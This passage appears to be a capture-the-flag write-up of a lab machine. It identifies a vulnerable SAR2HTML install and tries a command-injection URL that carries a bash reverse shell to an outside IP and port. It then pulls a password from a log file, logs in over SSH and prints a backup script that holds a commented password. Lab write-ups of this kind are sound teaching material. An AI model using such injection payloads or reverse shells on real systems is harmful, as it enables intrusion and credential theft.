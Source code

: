 ```
After unpacking, we find a shell script of version:
```
# SAR2HTML 3.2.1                                                        #
```

which is vulnerable to RCE:
https://www.exploit-db.com/exploits/47204

Managed to find log.txt:
```
Accepted password from basterd [...] superduperp@$$
```

For funsies, lets try a reverse shell:
```
http://IP/joomla/_test/index.php?plot=;bash -i >& /dev/tcp/10.14.21.85/4444 0>&1
```
Didn't work, but we have login creds.
```
ssh -p 55007 basterd@$IP # We get the port number from the nmap scan earlier
$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
```
```
$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     